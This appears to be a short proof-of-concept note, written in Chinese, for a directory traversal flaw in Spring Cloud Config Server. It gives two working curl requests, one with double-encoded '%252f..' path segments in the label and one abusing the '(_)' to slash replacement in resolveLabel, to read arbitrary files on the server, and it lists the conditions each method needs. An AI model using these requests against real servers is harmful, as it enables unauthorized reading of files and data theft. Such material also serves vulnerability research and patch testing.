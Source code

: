poc：

```


1.  `利用点1：`
2.  `curl http://127.0.0.1:9988/foo/profiles/%252f..%252f..%252f..%252fUsers%252fxuanyonghao%252ftmp/aaa.xxx`

4.  `读取/User/xuanyonghao/tmp/aaa.xxx文件`
5.  `foo 对应 {application}`
6.  `profiles 对应 {profiles}`
7.  `%252f..%252f..%252f..%252fUsers%252fxuanyonghao%252ftmp 对应 {label}`

9.  `todo 条件限制：`
10.  `todo 1. 文件必须有后缀，也就是.txt等等。`
11.  `todo 2. cloud: config: server: native: search-locations: file:///tmp/{label}，此处的目录需要有{application}或{profiles}或{label}，因为在上述触发点会对url对应段进行替换进来location，导致目录穿越，但是会限制文件后缀`

13.  `利用点2：`
14.  `org.springframework.cloud.config.server.resource.ResourceController#resolveLabel(java.lang.String)`
15.  `利用此处把label处的(_)替换为/`
16.  `curl http://127.0.0.1:9988/foo/profiles/..%28_%29Users%28_%29xuanyonghao%28_%29tmp/aaa.xxx`

18.  `todo 条件限制：`
19.  `todo 1. 文件必须有后缀，也就是.txt等等。`
20.  `todo 2. 不像利用点1处，不需要配置{application}{profiles}{label}`


```
